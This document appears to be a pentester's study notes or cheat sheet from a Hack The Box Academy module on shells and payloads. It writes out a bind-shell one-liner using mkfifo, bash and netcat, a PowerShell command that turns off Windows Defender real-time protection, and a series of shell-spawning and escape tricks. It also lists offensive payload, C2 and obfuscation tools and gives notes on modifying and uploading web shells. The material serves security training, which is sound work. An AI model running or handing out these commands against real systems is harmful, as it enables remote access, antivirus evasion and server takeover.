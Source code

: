 ##### **Bind Shells**
![](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

```bash
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

Orbixio@htb[/htb]$ nc -nv 10.10.14.2 7777
```
#### **Reverse Shells**
![](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)

```powershell
# Disable AV
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

For generating shells you can go to [RevShells](https://www.revshells.com/).

#### **Payload Generation Tools**

| **Resource**                      | **Description**                                                                                                                                                                                                                                                                                                   |
| --------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `MSFVenom & Metasploit-Framework` | [Source](https://github.com/rapid7/metasploit-framework) MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host. Think of it as a swiss-army knife. |
| `Payloads All The Things`         | [Source](https://github.com/swisskyrepo/PayloadsAllTheThings) Here, you can find many different resources and cheat sheets for payload generation and general methodology.                                                                                                                                        |
| `Mythic C2 Framework`             | [Source](https://github.com/its-a-feature/Mythic) The Mythic C2 framework is an alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.                                                                                                                    |
| `Nishang`                         | [Source](https://github.com/samratashok/nishang) Nishang is a framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.                                                                                                                  |
| `Darkarmour`                      | [Source](https://github.com/bats3c/darkarmour) Darkarmour is a tool to generate and utilize obfuscated binaries for use against Windows hosts.                                                                                                                                                                    |
##### **Interactive TTY**
```shell-session
python3 -c 'import pty; pty.spawn("/bin/sh")' 

/bin/sh -i

perl -e 'exec "/bin/sh";'

ruby -e 'exec "/bin/sh"'

lua: os.execute('/bin/sh')

awk 'BEGIN {system("/bin/sh")}'

find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
find . -exec /bin/sh \; -quit

vim -c ':!/bin/sh'

vim
:set shell=/bin/sh
:shell

```

#### **Web Shells**

The Laudanum files can be found in the `/usr/share/laudanum` directory.
The repo includes injectable files for many different web application languages to include `asp, aspx, jsp, php,` and more.

**Modify before uploading**
![](https://academy.hackthebox.com/storage/modules/115/modify-shell.png)

Antak is a web shell built-in ASP.Net included within the [Nishang project](https://github.com/samratashok/nishang).
The Antak files can be found in the `/usr/share/nishang/Antak-WebShell` directory.

**Modify the Shell for Use**
![image](https://academy.hackthebox.com/storage/modules/115/antak-changes.png)

Php Shell: https://github.com/WhiteWinterWolf/wwwolf-php-webshell
